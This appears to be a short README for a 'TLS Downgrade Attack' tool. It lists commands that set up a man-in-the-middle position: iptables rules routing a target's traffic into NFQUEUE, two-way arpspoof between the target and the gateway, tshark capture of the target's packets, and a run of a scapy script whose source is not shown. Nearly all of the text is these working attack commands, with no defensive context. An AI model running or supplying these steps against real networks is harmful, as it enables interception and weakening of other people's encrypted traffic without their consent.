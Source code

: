 # TLS Downgrade Attack

Install apt packages

```console
apt install tshark 
```

Install pip packages

```console
pip3 install -r req.txt
```

Add iptables rules:

```console
-A FORWARD -s $TARGET_IP/32 -j NFQUEUE --queue-num 2
-A POSTROUTING -s $TARGET_IP/32 -j MASQUERADE
```

Launch arpspoof sessions

```console
arpspoof -i $IFACE -t $TARGET_IP $GATEWAY_IP
arpspoof -i $IFACE -t $GATEWAY_IP $TARGET_IP 
```

Capture packets

```console
tshark -i $IFACE -w capture.pcapng -f "host $TARGET_IP"
```

Read captured packets

```console
tshark -r capture.pcapng
```

Run application

```console
python3 scapyTLS.py
```

Use sudo privileges if required!

